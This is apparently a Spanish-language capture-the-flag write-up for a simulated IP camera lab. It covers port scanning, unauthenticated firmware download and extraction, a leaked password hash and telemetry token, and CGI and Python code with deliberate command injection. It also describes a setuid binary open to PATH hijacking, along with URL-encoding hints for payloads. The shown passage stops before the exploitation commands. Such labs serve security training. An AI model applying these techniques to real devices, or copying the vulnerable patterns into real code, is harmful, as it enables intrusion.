# Auditoría de Seguridad — Whoami-CamSec-IoT

**Laboratorio:** Whoami-CamSec-IoT (Whoami-Labs)  
**Dificultad:** ★★★★★☆☆☆ (difícil, 5 XP)  
**Objetivo:** `172.17.0.2`  
**Fecha:** 2026-11-09  
**Autor:** chifay  
**Flag:** `Whoami{...}`

---

## 1. Resumen ejecutivo

El laboratorio simula una cámara IP corporativa con una consola web en el puerto 80
y varios servicios IoT (RTSP/ONVIF/HTTPS) que resultaron ser señuelos estáticos.
La cadena de compromiso fue:

1. **Descarga de firmware no autenticada** (`/firmware/camsec_v1.08.bin`) y extracción
   de un SquashFS con `/etc/shadow`, un CGI vulnerable y el binario setuid `cam_diag`.
2. **Crackeo offline** del hash SHA-512 de `support_eng` → contraseña `XXXXX`.
3. **Autenticación Basic** en `/cgi-bin/wifi_status.cgi` y **inyección de comandos**
   en el parámetro `interface` → RCE como `support_eng` (uid 1000).
4. **Escalada de privilegios** mediante *PATH hijacking* sobre `/usr/bin/cam_diag`
   (setuid root, ejecuta `system("netstat -i")`) → shell con `euid=0`.
5. **Lectura de la flag** en `/root/flag.txt`.

**Impacto:** compromiso total del host contenedor (root) y exposición de credenciales,
token de telemetría y firmware con secretos. Criticidad **Crítica**.

---

## 2. Alcance y metodología

- **Superficie analizada:** HTTP/80, RTSP/554, ONVIF/8000, HTTPS/8443, firmware
  descargable y filesystem del contenedor.
- **Metodología:** reconocimiento, fingerprint, análisis de firmware, revisión de
  código, explotación web, post-explotación y escalada de privilegios.
- **Herramientas:** `nmap`, `curl`, `whatweb`, `gobuster`, `binwalk`, `unsquashfs`,
  `john`, `openssl`, `nc`, `docker`.
- **Directorio de trabajo:** `~/Downloads/Labs/Dificil/CAMSEC/`.



*Verificación del entorno: usuario `kali`, host `Kali`, directorio `~/Downloads/Labs/Dificil/CAMSEC` y puente Docker `172.17.0.1/16`.*

### Estructura del repositorio

```text
CAMSEC/
├── captures/          # Capturas de la terminal (PNG)
├── exploits/          # Payload reproducible
├── firmware_extract/  # SquashFS extraído del firmware
├── loot/              # Firmware, hash y volcados de la app
├── notes/             # Salidas crudas de comandos y logs
├── scans/             # Resultados de nmap
└── README.md          # Este informe
```

---

## 3. Reconocimiento

### 3.1 Escaneo de puertos

```bash
nmap -sS -p- --min-rate 5000 -T4 172.17.0.2 -oN scans/nmap_allports.txt
```

```text
PORT     STATE SERVICE
80/tcp   open  http
554/tcp  open  rtsp
8000/tcp open  http-alt
8443/tcp open  https-alt
```



*Escaneo `nmap -sS -p- --min-rate 5000 -T4 172.17.0.2`: puertos 80, 554, 8000 y 8443 abiertos.*

### 3.2 Fingerprint de servicios

```bash
nmap -sC -sV -p80,554,8000,8443 -oN scans/nmap_services.txt 172.17.0.2
```

```text
80/tcp   open  http      BaseHTTPServer 0.6 (Python 3.11.18)
|_http-title: Whoami-CamSec-IoT v1.08 — IP Camera Console
554/tcp  open  rtsp      CamSec-StreamServer/1.08
8000/tcp open  http-alt  ONVIF-DeviceService/2.4
8443/tcp open  https-alt (HTTP 400: "SSL Required")
```

- El puerto 80 ejecuta una consola Python (`BaseHTTPServer`) que se identifica como
  **CamSec-Pro IP Camera v1.08 (ARM32)**.
- El puerto 2222 del host está mapeado a 22 del contenedor, pero **no hay sshd**
  escuchando dentro (el `netstat` del contenedor solo muestra 80, 554, 8000 y 8443).



*`nmap -sC -sV` sobre 80, 554, 8000 y 8443: identificación de `BaseHTTPServer`, RTSP, ONVIF y el falso TLS.*



*Detalle de los fingerprints de nmap para 554/8000/8443 y ejecución de `whatweb` con salida suprimida.*

- Evidencias: `captures/01_nmap_allports.png`, `captures/02_nmap_services.png`,
  `notes/01_nmap_allports.txt`, `notes/02_nmap_services.txt`.

### 3.3 Enumeración HTTP

```bash
gobuster dir -u http://172.17.0.2/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 50 -q --no-progress
```

```text
index.html           (Status: 200) [Size: 4927]
```

La página principal revela dos elementos clave:

- Descarga de firmware: `/firmware/camsec_v1.08.bin`
- Módulo de diagnóstico con autenticación RFC 2617 (Basic) en
  `/cgi-bin/wifi_status.cgi`



*Vista del portal con `lynx -dump`: módulo de diagnóstico (RFC 2617), descarga de firmware y especificaciones de la cámara.*



*`gobuster dir` sobre el puerto 80: `index.html` y rutas de firmware/CGI.*

Evidencias: `captures/03_http_index.png`, `captures/35_gobuster.png`,
`notes/35_gobuster.txt`.

---

## 4. Análisis del firmware

### 4.1 Descarga y extracción

```bash
curl -sS http://172.17.0.2/firmware/camsec_v1.08.bin -o loot/camsec_v1.08.bin
file loot/camsec_v1.08.bin
sha256sum loot/camsec_v1.08.bin
```

```text
u-boot legacy uImage, Whoami-CamSec-IoT v1.08 (ARM32), NetBSD/ARM,
OS Kernel Image (gzip), 4096 bytes
sha256: 1119374cb4f6646c4427e6325f6196d902d3770f6a2f166c649cbba016089862
```



*Descarga no autenticada del firmware, `file` y `sha256sum` del artefacto.*

```bash
binwalk -e loot/camsec_v1.08.bin
find firmware_extract -type f -ls
```

`binwalk` extrae automáticamente el SquashFS en
`firmware_extract/_camsec_v1.08.bin.extracted/squashfs-root/`.



*`binwalk -e`: detección del filesystem SquashFS v4.0 (compresión xz).*



*El intento de `unsquashfs` sobre `40.squashfs` falla porque `binwalk` ya lo había extraído; el artefacto es un directorio, no un archivo.*



*`find` confirma `squashfs-root` con `etc/passwd`, `etc/shadow`, `S99telemetry`, `cam_diag` y `wifi_status.cgi`.*

El firmware contiene un SquashFS v4.0 con:

```text
etc/passwd
etc/shadow
etc/init.d/S99telemetry
usr/bin/cam_diag
www/cgi-bin/wifi_status.cgi
```

Evidencias: `captures/05_firmware_dl.png`, `captures/06_firmware_binwalk.png`,
`captures/07_squashfs_extract.png`, `captures/08_fix_cwd.png`,
`notes/05_firmware_dl.txt`, `notes/06_firmware_binwalk.txt`.

### 4.2 Credenciales y secretos en el firmware

`etc/passwd`:

```text
root:x:0:0:root:/root:/bin/sh
support_eng:x:1000:1000:support_eng:/home/support_eng:/bin/sh
```

`etc/shadow`:

```text
support_eng:$6$W4m1C4m$9J84guN4Uwn7tKW/xAhs62BdkoryANgoXLx4rwo0S0hDMy2ftS7t2NqggdQM3/ml/.blmkss/VyX84A3QlIZl.:19500:0:99999:7:::
```

`etc/init.d/S99telemetry`:

```sh
DEVICE_SERIAL='CAMSEC-ARM32-9982-PRO'
DEVICE_TOKEN='camsec_telemetry_auth_token_9982_arm'
CLOUD_URL='http://telemetry.camsec.internal/api/ping'
```



*`/etc/passwd`, `/etc/shadow` y `S99telemetry` dentro del rootfs: hash de `support_eng` y token de telemetría.*

**Hallazgos:**

- Hash SHA-512 (`$6$`) del usuario `support_eng`, con contraseña débil.
- Token de autenticación de telemetría hardcodeado y serial del dispositivo.
- El firmware se descarga sin autenticación, exponiendo estos secretos.

Evidencias: `captures/09_firmware_files.png`, `notes/09_firmware_files.txt`.

### 4.3 CGI vulnerable en el firmware

`www/cgi-bin/wifi_status.cgi`:

```sh
#!/bin/sh
# CamSec IoT WiFi Network Diagnostic Interface
echo "Content-type: text/plain"
echo ""
IFACE=$(echo "$QUERY_STRING" | sed -n 's/^.*interface=\([^&]*\).*$/\1/p' \
  | sed 's/%20/ /g' | sed 's/+/ /g' | sed 's/%3B/;/g' | sed 's/%26/\&/g')
if [ -z "$IFACE" ]; then
  echo 'Usage: wifi_status.cgi?interface=wlan0'
  exit 1
fi
eval "echo '[*] Interface status for '$IFACE; iwconfig $IFACE 2>&1 || ifconfig $IFACE 2>&1"
```

El uso de `eval` con el parámetro `interface` es una inyección de comandos directa.
En el servicio real, la lógica equivalente está implementada en Python (ver sección 5),
pero el CGI del firmware sirve como pista del diseño vulnerable.

### 4.4 Binario setuid `cam_diag`

```bash
file firmware_extract/_camsec_v1.08.bin.extracted/squashfs-root/usr/bin/cam_diag
strings -a firmware_extract/_camsec_v1.08.bin.extracted/squashfs-root/usr/bin/cam_diag
```

```text
ELF 64-bit LSB pie executable, x86-64, not stripped
setuid
setgid
netstat -i
[*] CamSec Hardware Diagnostics Utility v1.08
[*] Checking network interface integrity...
```



*`file` y `strings` sobre `cam_diag`: binario setuid que invoca `netstat -i` mediante `system()`.*

El binario llama a `setuid`/`setgid` y ejecuta `netstat -i` mediante `system()`.
En el contenedor se instala como **setuid root**:

```text
-rwsr-xr-x 1 root root 16288 Nov  9 03:44 /usr/bin/cam_diag
```

Esto habilita un *PATH hijacking*: si `netstat` se resuelve desde un directorio
controlado por el atacante, se ejecuta como root.

Evidencias: `captures/11_camdiag_strings.png`, `captures/14_enum_setuid.png`,
`notes/14_enum_setuid.txt`.

---

## 5. Análisis de la aplicación web

La app real está en `/app/app.py` (Python 3.11, `BaseHTTPServer`). Se obtuvo una
copia mediante el RCE en `loot/app_py_dump.txt`. Rutas implementadas:

| Ruta | Método | Descripción |
|------|--------|-------------|
| `/` y `/index.html` | GET | Portal HTML de la cámara |
| `/firmware/camsec_v1.08.bin` | GET | Descarga del firmware sin auth |
| `/cgi-bin/wifi_status.cgi` | GET | Diagnóstico WiFi con Basic auth |
| resto | GET | 404 |



*Lectura de `/app/app.py` como `support_eng`: rutas, credenciales hardcodeadas y lógica del CGI.*

### 5.1 Autenticación Basic hardcodeada

```python
elif path == "/cgi-bin/wifi_status.cgi":
    # HTTP Basic Authentication Check (support_eng : XXXXX)
    auth_header = self.headers.get("Authorization", "")
    authenticated = False
    if auth_header.startswith("Basic "):
        try:
            b64_val = auth_header.split(" ", 1)[1].strip()
            creds = base64.b64decode(b64_val).decode("utf-8", errors="ignore")
            if creds == "support_eng:XXXXX":
                authenticated = True
        except Exception:
            authenticated = False
```

- Credenciales hardcodeadas en el código fuente: `support_eng:XXXXX`.
- Basic auth sobre HTTP en claro (sin TLS), por lo que la credencial viaja en Base64
  reversible en cada petición.
- Sin rate limiting ni bloqueo de cuenta.

### 5.2 Inyección de comandos

```python
query = urllib.parse.parse_qs(parsed.query)
iface = query.get("interface", [""])[0]

cmd = f"echo '[*] Interface status for {iface}'; ifconfig {iface} 2>&1 || true"

support_user = pwd.getpwnam("support_eng")
def _demote():
    try:
        os.setgroups([support_user.pw_gid])
    except Exception:
        pass
    os.setgid(support_user.pw_gid)
    os.setuid(support_user.pw_uid)

proc = subprocess.Popen(
    cmd,
    shell=True,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT,
    executable="/bin/sh",
    preexec_fn=_demote
)
```

- `iface` se interpola directamente en una cadena ejecutada con `shell=True`.
- El proceso se demota a `support_eng` (uid 1000), pero no hay validación del
  parámetro ni uso de listas de argumentos.
- Cualquier metacarácter (`;`, `|`, `&`, `$()`, backticks) permite ejecutar comandos.

### 5.3 Nota sobre la codificación

`urllib.parse.parse_qs` decodifica los escapes percent y trata `+` como espacio.
Para payloads con `#`, `+`, comillas o espacios se usó:

| Carácter | Codificación en la URL |
|----------|------------------------|
| espacio | `%20` |
| `"` | `%22` |
| `#` | `%23` (si se envía literal, curl lo trata como fragmento) |
| `+` | `%2B` (si se envía `+`, parse_qs lo convierte en espacio) |
| `;` | `%3B` o literal |



*Prueba con comillas simples (`echo 'QUOTED_TEST'`) y enumeración de binarios setuid.*

